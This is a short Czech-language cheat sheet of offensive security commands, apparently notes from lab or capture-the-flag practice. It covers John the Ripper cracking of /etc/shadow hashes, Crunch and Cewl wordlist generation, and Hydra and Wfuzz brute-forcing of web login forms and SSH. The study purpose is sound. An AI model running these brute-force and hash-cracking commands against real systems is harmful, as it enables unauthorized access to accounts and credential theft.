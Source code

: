 # Crypto

**John**\
\--format = určuje typ hashe\
\--wordlist\
-potřeba mít hash v .txt (nejlepší je okopírovat celý /etc/shadow záznam)\


**Crunch** = vytvoření wordlistu z předvolených charů

`crunch 3 3 0123456789ABCDEF -o 3digits.txt`\
`3 = minimum length`\
`3 = maximum length`\
`XY = custom charset`\
`-o = output file`

\
**Hydra**\
hydra -l ' ' -P list.txt 10.10.x.x http-post-form "/login.php:username=^USER^\&password=^PASS^:Access denied" -s 8000 -f -v

hydra -l USER -P WORDLIST IP ssh

-s = jiný port než 80\
-f = stop při nalezení\


**Wfuzz**\
wfuzz -c -z jmena.txt -z hesla.txt --hs "Please enter the correct credentials" -u http://10.10.34.254/login.php -d "username=FUZZ\&password=FUZ2Z"

-c = barvičky xd\
-z = připnutí souborů \
\--hs = schová odpovědi s chybovým stringem\
-u = URL\
-d = parametry POSTu, jednotlivé wordlisty číslem\
\
\
**Cewl** = vytvoří wordlist (usernames, hesla) z obsahu webové stránky\
-m = min délka (5)\
-x = max délka\
-d = hloubka crawlingu\
-w = output\
\--lowercase = pro jména\
\--with-numbers = pro hesla
